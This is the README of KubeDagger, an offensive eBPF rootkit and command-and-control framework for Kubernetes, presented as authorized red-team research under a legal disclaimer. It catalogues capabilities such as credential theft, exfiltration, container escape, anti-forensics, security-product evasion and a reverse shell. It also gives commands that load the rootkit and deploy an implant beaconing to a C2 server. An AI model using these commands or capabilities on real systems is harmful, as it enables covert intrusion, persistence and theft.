

# KubeDagger

<p align="center">
  
</p>

[](https://github.com/yasindce1998/KubeDagger/actions/workflows/build.yml)
[](https://github.com/yasindce1998/KubeDagger/actions/workflows/release.yml)
[](https://goreportcard.com/report/github.com/yasindce1998/KubeDagger)
[](https://www.gnu.org/licenses/old-licenses/gpl-2.0.en.html)
[](https://opensource.org/licenses/Apache-2.0)
[](https://go.dev/)
[](https://github.com/yasindce1998/KubeDagger)

KubeDagger is a highly advanced, sophisticated offensive security research tool - one of the most comprehensive eBPF-based red team / adversarial simulation frameworks focused on Kubernetes and containerized environments.

Demonstrates 110+ offensive techniques including network discovery, file system monitoring, process hiding, container breakouts, cloud-native attacks, kernel-level covert channels, eBPF polymorphism, autonomous objective planning, and adversarial evasion of 17 cloud-native security products (cnative-sensor, cnative-probe, cnative-shield, cnative-audit, cnative-responder, cnative-mesh mTLS, cnative-certs, cnative-identity, cnative-policy, cnative-net, cnative-registry, cnative-signing, cnative-backup, cnative-secrets, cnative-control, cnative-serverless, cnative-workflow). Supports Linux (eBPF kernel-level), Windows, and macOS (userspace agent).

> [!CAUTION]
> ## ⚠️ STRICT LEGAL DISCLAIMER & WARNING
>
> This project (KubeDagger) is provided strictly for **educational, research, and authorized security testing purposes only**. It is intended solely to demonstrate offensive security techniques in controlled, legal environments such as personal labs, authorized penetration testing engagements (with explicit written permission), or academic research.
>
> **Do not** use these tools, code, techniques, or any derived materials to violate any laws, access systems without explicit authorization, or engage in any unauthorized activity.
>
> The author and contributors are not responsible for any misuse, damage, or consequences arising from the use of this project. Misuse can result in severe civil and criminal liability.

> [!IMPORTANT]
> ### Key Legal Warnings by Jurisdiction (Non-Exhaustive)
>
> **United States** — Unauthorized access to computer systems is prohibited under the Computer Fraud and Abuse Act (CFAA, 18 U.S.C. § 1030). Penalties range from 1 year (misdemeanor) to 10–20 years or more (felony), depending on intent, damage, financial gain, or involvement of protected computers/national security information.
>
> **India** — Hacking and unauthorized access are criminal offenses under Section 66 of the Information Technology Act, 2000 (often read with IPC sections). Penalties include imprisonment up to 3 years and/or fines up to ₹5 lakh (or higher in combined charges). Additional laws may apply for data theft, fraud, or critical infrastructure attacks.
>
> **European Union / United Kingdom** — Unauthorized access and system interference are criminalized under national laws implementing the EU Directive 2013/40/EU on attacks against information systems (and the earlier Budapest Convention on Cybercrime), as well as country-specific statutes such as the UK's Computer Misuse Act 1990, Germany's StGB §202a–c, and France's Loi Godfrain. Penalties typically range from fines to several years' imprisonment, with harsher sentences for attacks on critical infrastructure, large-scale data breaches, or aggravated/organized offenses. Processing of personal data obtained through unauthorized access may also trigger separate GDPR liability.
>
> **Middle East** (UAE, Qatar, Saudi Arabia, and similar) — Cybercrime laws impose heavy penalties for hacking, unauthorized access, data tampering, or attacking information systems, including imprisonment (months to life in aggravated cases) and substantial fines. Targeting government or critical systems carries especially severe consequences.
>
> **Russia** — Illegal access to computer information is punishable under Article 272 of the Criminal Code of the Russian Federation (and related articles), with harsher sentences for damage to critical information infrastructure or aggravated cases.
>
> Laws vary by country, state, and specific circumstances. **This is not legal advice.** Consult qualified legal counsel in your jurisdiction before any activity involving this tool. Users are solely responsible for ensuring full compliance with all applicable local, national, and international laws.

> [!WARNING]
> By accessing or using this repository, you acknowledge that you have read, understood, and agree to this disclaimer. **Unauthorized or illegal use is strictly prohibited.** 

## Architecture

<p align="center">
  
</p>

**Binaries:**

| Binary | Description | Platform |
|--------|-------------|----------|
| `kubedagger` | eBPF rootkit daemon (loads kernel probes) | Linux only |
| `kubedagger-client` | CLI for interacting with the eBPF daemon | Linux only |
| `kubedagger-server` | HTTP/2 C2 server with mTLS + management port | Linux, macOS |
| `kubedagger-agent` | Cross-platform implant (beacon + modules) | Linux, Windows, macOS |
| `kubedagger-operator` | Operator CLI for managing agents/tasks | Linux, Windows, macOS |
| `webapp` | Web-based control panel | Linux |

## Requirements

**eBPF components (Linux only):**
- Linux kernel 5.4+ with eBPF support (BTF-enabled for CO-RE portability)
- Kernel headers installed in `/lib/modules/$(uname -r)`
- clang & llvm 11+
- Root privileges

**C2 components (cross-platform):**
- Go 1.25+
- No kernel dependencies

## Build

```shell
# Build everything (eBPF + all binaries)
make

# Build only the C2 server
make build-server

# Build cross-platform agents (linux/amd64, windows/amd64, darwin/arm64)
make build-agent

# Build operator CLI
make build-operator

# Install client to /usr/bin/
make install_client
```

## Quick Start

### eBPF Mode (Linux)

```shell
# Check prerequisites
./scripts/check-prereqs.sh

# Build and start the eBPF server (requires root)
make rootkit
sudo ./bin/kubedagger -i eth0 -e eth0

# Use the client
kubedagger-client -h
```

### C2 Mode (Cross-Platform)

```shell
# Generate encryption key for management port
KEY=$(kubedagger-client c2 genkey)

# Start the C2 server
./bin/kubedagger-server -key $KEY -plaintext

# Deploy agent on target (use --plaintext for dev, mTLS for production)
./bin/kubedagger-agent-linux -server http://10.0.2.5:443 -plaintext

# Interact via operator CLI
./bin/kubedagger-operator -key $KEY agents
./bin/kubedagger-operator -key $KEY shell <agent-id> whoami
./bin/kubedagger-operator -key $KEY module <agent-id> k8s_discovery
```

> **For full usage instructions, see [USAGE.md](USAGE.md)**

### Advanced Engine Packages

| Package | Description |
|---------|-------------|
| `pkg/covert` | Kernel-level covert channels (ICMP, DNS, TCP retransmit, TTL steganography) |
| `pkg/polymorph` | eBPF bytecode polymorphism engine for signature evasion |
| `pkg/k8sc2` | Kubernetes API C2 channel via ConfigMap annotations |
| `pkg/memexec` | Memory-only execution (memfd_create, /proc/pid/mem, process hollowing) |
| `pkg/webhook` | Admission webhook weaponization with auto-cert and Pod injection |
| `pkg/antiforensics` | Anti-forensics eBPF hooks (audit suppression, log filtering, timestomping) |
| `pkg/autonomy` | Autonomous objective engine with rule-based forward-chaining planner |
| `pkg/multicluster` | Multi-cluster propagation via kubeconfig theft, federation, and service mesh |
| `pkg/cloudexploit` | Cloud provider exploitation (AWS, GCP, Azure IAM/metadata attacks) |
| `pkg/cicd` | CI/CD pipeline poisoning (cnative-pipeline, cnative-gitops, cnative-sync task/app injection) |
| `pkg/servicemesh` | Service mesh deep attacks (cnative-mesh xDS injection, mTLS cert theft, traffic hijack) |
| `pkg/cloudevasion` | Detection evasion for 17 cloud-native security products (cnative-sensor, cnative-probe, cnative-shield, cnative-audit, cnative-responder, cnative-mesh, cnative-certs, cnative-identity, cnative-policy, cnative-net, cnative-registry, cnative-signing, cnative-backup, cnative-secrets, cnative-control, cnative-serverless, cnative-workflow) |
| `pkg/webui` | Operator Web UI with real-time agent dashboard and command dispatch |

### Available client commands

| Command | Description |
|---------|-------------|
| `dashboard` | Real-time TUI dashboard |
| `docker` | Docker image override configuration |
| `dns_exfil` | DNS-based data exfiltration |
| `fs_watch` | File system watches |
| `k8s discover` | Kubernetes cluster discovery |
| `k8s abuse` | Kubernetes privilege escalation |
| `escape` | Container escape (privileged, socket, cgroup, nsenter) |
| `secrets harvest` | Harvest secrets from env, K8s, cloud, Docker, Vault |
| `evasion` | Runtime security evasion (cnative-sensor, cnative-probe, cnative-shield) |
| `netbypass` | Network policy bypass (tunnel, spoof, encap, direct) |
| `meshbypass` | Service mesh bypass (XDP, UID, raw, exclude) |
| `obs-poison` | Observability poisoning (Prometheus, OTel, StatsD) |
| `cloud meta` | Cloud metadata credential theft (AWS, GCP, Azure) |
| `cloud exfil` | Data exfiltration to cloud storage |
| `webhook` | Admission webhook backdoor deployment |
| `cri-tamper` | CRI-level image tampering (containerd, CRI-O) |
| `daemonset` | DaemonSet dropper for cluster-wide deployment |
| `keyring` | Kernel keyring theft |
| `tls-intercept` | TLS traffic interception |
| `etcd-steal` | Etcd credential theft |
| `log-tamper` | Log tampering |
| `syscall-bypass` | Syscall-level hiding |
| `audit-filter` | Audit log filtering |
| `pcap-blind` | Pcap blinding |
| `coredump-suppress` | Core dump suppression |
| `timeskew` | Timestamp manipulation |
| `polymorph` | BPF polymorphism |
| `fileless-exec` | Fileless execution |
| `xdp-shell` | XDP reverse shell |
| `bpf-ipc` | BPF map IPC |
| `k8s-event-c2` | K8s Event C2 |
| `container-log-c2` | Container log C2 |
| `tcp-stego` | TCP window steganography |
| `doh-c2` | DNS-over-HTTPS C2 |
| `covert-channel` | Covert channels |
| `arp-spoof` | ARP cache poisoning |
| `kubelet` | Kubelet API abuse |
| `veth-hijack` | Veth pair hijacking |
| `sidecar-inject` | Sidecar container injection |
| `supply-chain` | Supply chain injection |
| `gitops-poison` | GitOps repository poisoning |
| `sa-token` | Service account token minting/theft |
| `pod-identity` | Pod identity theft |
| `sig-bypass` | Image signature verification bypass |
| `crd-backdoor` | CRD-based backdoor controller |
| `honeypot-detect` | Honeypot/deception detection |
| `sched-starve` | Scheduler starvation attack |
| `fault-inject` | Syscall fault injection |
| `cgroup-manip` | Cgroup resource manipulation |
| `election-disrupt` | Leader election disruption |
| `cert-sabotage` | Certificate rotation sabotage |
| `keyring-mitm` | Kernel keyring MITM |
| `mitre` | MITRE ATT&CK mapping export (37 techniques) |
| `network_discovery` | Network discovery and port scanning |
| `pipe_prog` | Piped programs configuration |
| `postgres` | PostgreSQL authentication control |
| `proctree` | Process tree visualization |

## License

- Go code: Apache 2.0
- eBPF programs: GPL v2
